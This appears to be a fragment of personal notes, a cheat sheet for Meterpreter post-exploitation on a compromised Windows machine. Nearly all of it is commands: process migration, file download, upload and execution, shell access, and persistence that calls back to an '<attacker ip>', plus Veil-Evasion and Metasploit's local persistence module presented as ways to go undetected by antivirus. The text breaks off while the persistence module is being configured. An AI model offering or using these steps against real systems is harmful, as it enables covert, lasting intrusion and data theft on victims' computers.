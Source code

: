 it will show all the interfaces on the target computer

`ipconfig`

it will list all the processes that are running in the target computer

`ps`

you can migrate to a safer process id to target computer using the following command, this will migrate the current session to the safer process id

`migrate <pid of the safer process running in the target>`

shows current working directory

`pwd`

lists files in the current working directory

`ls`

changes working directory to location

`cd <location>`

prints the content of file on screen

`cat <file>`

downloads file

`download <file>`

uploads file

`upload <file>`

executes file

`execute -f <file>`

converts meterpreter session to command shell

`shell`

`help`

veil evasion does not always work

using persistence modulen in meterpreter console, but it is detectable by antivirus

`run persistence -h`

`run persistence -U -i <interval> -p <port> -r <attacker ip>`

-u for user previlege

### using metasploit + veil-evasion

continuing from the previous option, this is more robust and udetectable by antivirus

`use exploit/windows/local/persistence`

`set session <session id>`

